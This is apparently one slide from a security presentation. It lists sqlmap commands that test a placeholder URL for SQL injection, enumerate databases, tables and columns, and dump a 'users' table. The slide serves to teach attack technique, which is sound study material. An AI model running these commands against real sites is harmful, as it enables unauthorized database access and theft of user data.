

# Attack (cont.)
SQL MAP Commands
Check if link is vulnerable to SQL Injection
python sqlmap.py -u http://www.example.com/authors.php?id=100
Discover Databases
python sqlmap.py -u http:// www.example.com/authors.php?id=100 --dbs
Find Tables of a particular database
python sqlmap.py -u http:// www.example.com/authors.php?id=100 --tables -D databasename
Find the columns
python sqlmap.py -u http:// www.example.com/authors.php?id=100 --columns -D databasename -T users
Get data from the table
python sqlmap.py -u http:// www.example.com/authors.php?id=100 --dump -D databasename -T users
47